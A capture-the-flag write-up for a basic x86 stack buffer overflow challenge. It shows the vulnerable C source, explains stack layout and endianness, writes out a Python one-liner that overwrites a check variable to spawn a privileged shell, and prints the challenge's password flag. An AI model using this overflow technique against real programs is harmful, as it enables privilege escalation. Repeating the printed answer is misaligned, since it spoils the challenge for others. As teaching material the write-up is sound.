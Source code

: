# ELF x86 - Stack buffer overflow basic 1

## Source code

```c
#include <unistd.h>
#include <sys/types.h>
#include <stdlib.h>
#include <stdio.h>

int main()
{

  int var;
  int check = 0x04030201;
  char buf[40];

  fgets(buf,45,stdin);

  printf("\n[buf]: %s\n", buf);
  printf("[check] %p\n", check);

  if ((check != 0x04030201) && (check != 0xdeadbeef))
    printf ("\nYou are on the right way!\n");

  if (check == 0xdeadbeef)
   {
     printf("Yeah dude! You win!\nOpening your shell...\n");
     setreuid(geteuid(), geteuid());
     system("/bin/bash");
     printf("Shell closed! Bye.\n");
   }
   return 0;
}
```

The program first sets up a `check` variable with the value `0x04030201`.

The program then sets up a buffer of 40 bytes.

It then uses the `fgets` to take user input.

## fgets()

```c
char fgets(char s, int size, FILE stream);
```

As we can see it takes 3 arguments.

1. The first argument is the location where the input is supposed to be read to which is the buffer in our case.
2. The second argument is the maximum number of bytes to be read being 45.
3. The third argument is where the data us read from which is the STDIN in our case.

Lastly it has two conditional statements:

1. The first conditional executes if we replace the original value of the `check` variable with anything other than `0xdeadbeef`.
2. The second conditional executes if we replace the original value of the `check` variable with `0xdeadbeef`.

Let's provide 40 `a` and 4 `b` characters as input.

```
$ python -c 'print "a"*40 + "b"*4' | ./ch13

[buf]: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
[check] 0x62626262

You are on the right way!
```

We can see that `check` was set to `bbbb` which is `0x62626262` in hexadecimal which caused first conditional statement to be executed.

## Stack

```
+---------------+ 
|  61 61 61 61  | <====== buffer (40 bytes)
|  61 61 61 61  | 
|  61 61 61 61  |
|  61 61 61 61  |
|  61 61 61 61  |
|  61 61 61 61  |
|  61 61 61 61  |
|  61 61 61 61  |
|  61 61 61 61  |
|  61 61 61 61  |
+---------------+
|  62 62 62 62  | <====== check
+---------------+
```

We want to set the `check` variable to `0xdeadbeef`. However before we do that we need to understand the concept of endianness.

## Big endianness

```
+--------+--------+--------+--------+
| 0x1337 | 0x1338 | 0x1339 | 0x1340 |
+--------+--------+--------+--------+
|   de   |   ad   |   be   |   ef   |
+--------+--------+--------+--------+
```

The LSB is stored in the high memory address (`0x1340`) while the MSB is stored in the low memory address (`0x1337`).

This is the format in which humans write numbers.

## Little endianness

```
+--------+--------+--------+--------+
| 0x1337 | 0x1338 | 0x1339 | 0x1340 |
+--------+--------+--------+--------+
|   ef   |   be   |   ad   |   de   |
+--------+--------+--------+--------+
```

The LSB is stored in the low memory address (`0x1337`) while the MSB is stored in the high memory address (`0x1340`).

This is the format in which machines store data. This is the relevant format for our level.

## Exploit

Now we are ready to craft our exploit.

```
$ python -c 'print "a"*40 + "\xef\xbe\xad\xde"' | ./ch13

[buf]: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaﾭ�
[check] 0xdeadbeef
Yeah dude! You win!
Opening your shell...
Shell closed! Bye.
```

* So the shell is closing immediately. In order to complete the exploit we need the shell to stay open.
* We can use the `cat` command to keep the shell open.

```
$ (python -c 'print "a"*40 + "\xef\xbe\xad\xde"' ; cat) | ./ch13

[buf]: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaﾭ�
[check] 0xdeadbeef
Yeah dude! You win!
Opening your shell...
```

We know that the password is in the `HOME/.passwd` file. All we have to do now is to `cat` it.

```
cat .passwd
1w4ntm0r3pr0np1s
```

## Password

```
1w4ntm0r3pr0np1s
```
